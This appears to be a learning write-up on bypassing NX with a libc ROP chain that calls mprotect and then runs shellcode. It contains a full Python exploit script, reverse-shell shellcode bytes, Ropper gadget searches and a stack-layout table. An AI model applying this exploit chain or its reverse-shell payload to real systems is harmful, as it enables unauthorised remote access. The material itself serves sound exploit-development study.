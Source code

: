 # Bypass NX using ROP chain to turn a non exec stack into an exec one using mprotect, to exec shellcode 
  
### Gadgets used and their offsets:
- 0x0003b4fc: pop edx; ret;  
- 0x000a07f8: inc edx; ret;  
- 0x000915a3: pop ecx; ret;  
- 0x00184049: pop ebx; ret;  
- 0x0003677d: inc ebx; ret;  
### Other data used:
- stack_size = 0x21000  
- libc_base = 0xf7d75000  
  
  
> The goal here is to fill the buffer with A's and then overflow the stack with gadgets, that we will use, one by one, in chain, to trigger instructions that will fill the registers EDX, ECX and EBX, and then jump into the middle of `mprotect()` *(to skip the automatic filling of the registers part, so only our data is set into them)*. This will execute `mprotect()` and turn the stack into an executable one. Then, we will use a `jmp esp;` gadget to jump to ESP and executes our shellcode, which gives us a reverse shell.
## The Python program used:
```Python
#!/usr/bin/python3  
from pwn import p32  

libc_base = 0xf7d75000  
  
junk = b"A" * 268    
  
# this rop chain could have been done much simpler by pushin on the stack 0x7 instead of 0xffffffff (which we then need to increment), but i prefer to do it like this to really "cement" the idea in my mind.  
rop = b"".join([  
	p32(libc_base + 0x0003b4fc), # pop edx; ret;  
	p32(0xffffffff), # will be popped in edx  
	p32(libc_base + 0x000a07f8), # inc edx; ret; => EDX contains 0x0  
	p32(libc_base + 0x000a07f8),  
	p32(libc_base + 0x000a07f8),  
	p32(libc_base + 0x000a07f8),  
	p32(libc_base + 0x000a07f8),  
	p32(libc_base + 0x000a07f8),  
	p32(libc_base + 0x000a07f8),  
	p32(libc_base + 0x000a07f8), # EDX contains 0x7  
	p32(libc_base + 0x000915a3), # pop ecx; ret;  
	p32(0x01010101), # length of area to apply the rights too, popped in ECX  
	p32(libc_base + 0x00184049), # pop ebx; ret;  
	p32(0xfffdbfff), # popped in EBX, to be inc right after (to avoid nullbytes)  
	p32(libc_base + 0x0003677d), # inc ebx; ret; => EBX contains 0xfffdc000 (stack base address)  
	p32(0xf7e8f0dd), # <mprotect+13> aka right before the syscall executes  
	p32(0x42424242), # this will be popped in EBX, now stack is executable  
	p32(libc_base + 0x00119917) # jmp esp;  
])  
  
shellcode = b"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb3\x02\xb1\x01\x66\xb8\x67\x01\xcd\x80\x89\xc3\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x31\xd2\xb2\x10\x31\xc0\x66\xb8\x6a\x01\xcd\x80\x31\xc0\x31\xc9\xb0\x3f\xcd\  
x80\x31\xc0\xb1\x01\xb0\x3f\xcd\x80\x31\xc0\xb1\x02\xb0\x3f\xcd\x80\x31\xc0\x31\xd2\x31\xc9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"  
  
payload = junk + rop + shellcode  
  
with open("payload", "wb") as f:  
	f.write(payload)
```
  
## EDX setup:  
  
- Goal is to have `0x7` on top of the stack, to right after `pop` it into EDX.
- We could push `0x7` straight onto the stack, by inserting it directly right after our 268 `A`, but we'll do something different because i know very well that you wanna read about a concept i recently heard about: **Integer Overflow**  
	- in 32 bits systems, the maximum value an **Unsigned integer** can have is `0xffffffff`.  
	- Now, what happens when we add 1 to this value ? How can we add to a maximum value ? Doesn't make sense right ? But, if we can, what happens ??! 
	- *Yes, we can*: `0xffffffff + 1 = 0x100000000` ... but this is not 0 !!
	- Well, in 32-bit systems, only 32 bits are stored ... makes sense ... so why do we have 9 numbers displayed here, and not 8 like it should be ? Well, the system will interpret this value, and *wrap* around, to remove the extra `1` and turning the value into `0x00000000`. And this ... is called an **unsigned integer overflow**: exceeding the maximum representable value causes a wrap-around to zero.  
- So our goal, will be to add `1` eight times in a row, in order to go from `0xffffffff` to `0x7`.
- To add `1` to EDX we will use a gadget that increments it. This gadget will be `inc edx; ret;`  
- First (this can seem counterintuitive but ...) we need to push the gadget `pop edx; ret;` on the stack, so when ESP is pointing at it, it "understands" *Ok at the next instruction, i'll pop whatever value is there, into EDX*.
- Both gadgets offset addresses (compared to the libc base address) can be found using Ropper:  
```bash  
(ropper)> file /usr/lib32/libc.so.6  
...
(libc.so.6/ELF/x86)> search /1/ inc edx  
0x000a07f8: inc edx; ret;  
(libc.so.6/ELF/x86)> search /1/ pop edx  
0x0003b4fc: pop edx; ret;  
```  
- We know the libc_base address: `0xf7d75000`. We'll use this value to access all our gadgets: 
	- `pop edx; ret;` gadget offset = `0x0003b4fc`  
	- `pop edx; ret;` global address = `0xf7d75000` + `0x0003b4fc`
  
* Then, we want to increase the value contained in EDX to 0x7, so we'll use the `inc edx; ret;` gadget:
	* `inc edx; ret;` gadget offset = `0x000a07f8`
	* `inc edx; ret;` global address = `0xf7d75000` + `0x000a07f8`

| STACK ||  
|----------------|-------------------------------|  
|A * 268 | => filling the buffer until rbp  
|`0xf7d75000` + `0x0003b4fc` | => `pop edx; ret` gadget will be placed on top of stack  
|0xffffffff | => 0xffffffff will be placed on top of stack to be used by `pop edx`  
|`0xf7d75000` + `0x000a07f8` | => `inc edx; ret` gadget
|0xF7E157F8 | => goal is to keep incrementing until EDX contains `0x7` 
|0xF7E157F8 |  
|0xF7E157F8 |  
|0xF7E157F8 |  
|0xF7E157F8 |  
|0xF7E157F8 |  
|0xF7E157F8 | => EDX now contains `0x7`
